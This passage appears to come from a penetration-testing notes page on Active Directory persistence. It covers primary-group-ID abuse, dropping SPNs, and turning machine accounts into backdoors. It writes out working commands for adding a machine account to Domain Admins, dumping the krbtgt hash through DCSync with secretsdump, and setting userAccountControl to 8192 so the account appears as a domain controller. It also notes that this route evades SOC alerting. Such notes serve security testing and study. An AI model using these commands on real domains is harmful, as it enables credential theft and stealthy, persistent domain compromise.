 This cool trick cannot work on members of protected groups such as Domain Admins, but can work on members of normal groups such as DnsAdmins, which can be used to escalate to Domain Admins.

- https://www.semperis.com/blog/how-attackers-can-use-primary-group-membership-for-defense-evasion/
- https://blog.alsid.eu/primary-group-id-attack-a50dca142771

### Dropping SPN on admin accounts
https://adsecurity.org/?p=3466

####  Persistence in AD environment
- https://padlet.com/sylvaincortes/5ih32mx9f637sk1a

#### Machine/Computer accounts
- https://adsecurity.org/?p=2753

Machine accounts could be used as a backdoor for domain persistence by adding them to high privilege groups.

```
net group "Domain Admins" newMachine01$ /add /domain
python3 secretsdump.py company.local/newMachine01\$:Password123@10.0.0.1 -just-dc-user krbtgt
```

#### Machine/Computer accounts 2
- https://stealthbits.com/blog/server-untrust-account/
- https://github.com/STEALTHbits/ServerUntrustAccount
- https://pentestlab.blog/2022/01/17/domain-persistence-machine-account/

> Even though that dumping passwords hashes via the DCSync technique is not new and SOC teams might have proper alerting in place, using a computer account to perform the same technique might be a more stealthier approach.

- https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties

Modification of the “userAccountControl” attribute can transform a computer account to a domain controller.

Computer account to appear as a domain controller:
- **userAccountControl** attribute needs to have the value of 0x2000 = ( SERVER_TRUST_ACCOUNT ) decimal : 8192
--> Modification of this attribute requires domain administrator level privileges

```
Import-Module .\Powermad.psm1
New-MachineAccount -MachineAccount newMachine01 -Domain company.local -DomainController dc01.company.local
```
By default new computer will have primary group ID 515 (RID for domain groups and represents that this is a domain computer)

If you can modify the **userAccountControl** an therefore change the primary group ID. This attribute would be modified to have a value of **8192** the primary group id will change to **516** which belongs to domain controllers.

```
Set-ADComputer newMachine01 -replace @{ "userAccountcontrol" = 8192 }
```
